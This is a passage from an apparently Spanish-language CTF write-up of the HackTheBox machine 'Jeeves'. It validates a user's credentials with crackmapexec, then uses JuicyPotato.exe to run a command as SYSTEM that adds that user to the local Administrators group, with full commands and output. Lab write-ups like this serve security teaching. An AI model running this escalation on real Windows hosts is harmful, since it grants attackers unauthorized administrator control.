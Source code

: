 ```bash
net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
kohsuke                  miguel
The command completed successfully.


C:\Windows\Temp\Prives>
```

- Si validamos vemos que es válido.

```bash
❯ crackmapexec smb 10.10.10.63 -u 'miguel' -p 'miguel123$!'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\miguel:miguel123$!
```

- Ahora tenemos que hacer que forme del grupo **Administrators** podemos hacerlo con **JuicyPotato.exe**.

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators miguel /add" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Prives>
```

- Y bueno ahora formamos parte del grupo.

```bash
net user miguel
net user miguel
User name                    miguel
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/3/2023 3:03:27 AM
Password expires             Never
Password changeable          7/3/2023 3:03:27 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
```